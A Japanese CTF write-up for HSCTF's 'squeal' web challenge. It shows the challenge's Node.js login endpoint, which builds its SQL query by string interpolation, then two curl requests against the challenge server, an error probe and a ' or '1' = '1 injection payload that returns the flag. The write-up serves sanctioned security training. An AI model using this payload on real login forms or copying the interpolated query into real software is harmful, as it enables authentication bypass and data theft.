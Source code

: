 # squeal:web:219pts
Can you log into this super secret site as admin? It's okay to SQueaL  
[http://web1.hsctf.com:8006/](http://web1.hsctf.com:8006/)  
Downloads  
[squeal.zip](squeal.zip)  

# Solution
URLとソースが渡される。  
アクセスするとログインフォームが現れる。  
Login  
[site.png](site/site.png)  
SQLiがあやしい。  
ソースを見ると以下のようであった。  
```js
~~~
app.post("/api/flag", (req, res) => {
	const username = req.body.username;
	const password = req.body.password;
	if (typeof username !== "string") {
		res.status(400);
		res.end();
		return;
	}
	if (typeof password !== "string") {
		res.status(400);
		res.end();
		return;
	}

	let result;
	try {
		result = db
			.prepare(
				`SELECT * FROM users
            WHERE username = '${username}'
            AND password = '${password}';`
			)
			.get();
	} catch (error) {
		res.json({ success: false, error: "There was a problem." });
		res.end();
		return;
	}

	if (result) {
		res.json({ success: true, flag: process.env.FLAG });
		res.end();
		return;
	}

	res.json({ success: false, error: "Incorrect username or password." });
});
~~~
```
自明なSQLiが見て取れる。  
```bash
$ curl http://web1.hsctf.com:8006/api/flag -H 'Content-Type: application/json' --data-raw $'{"username":"\'","password":"satoki"}'
{"success":false,"error":"There was a problem."}
$ curl http://web1.hsctf.com:8006/api/flag -H 'Content-Type: application/json' --data-raw $'{"username":"\' or \'1\' = \'1","password":"\' or \'1\' = \'1"}'
{"success":true,"flag":"flag{squ34l_n0t_sql}"}
```
シングルクォートでエラーになることからも明らかである。  
基本的なペイロードを投げてやるとflagが得られた。  

## flag{squ34l_n0t_sql}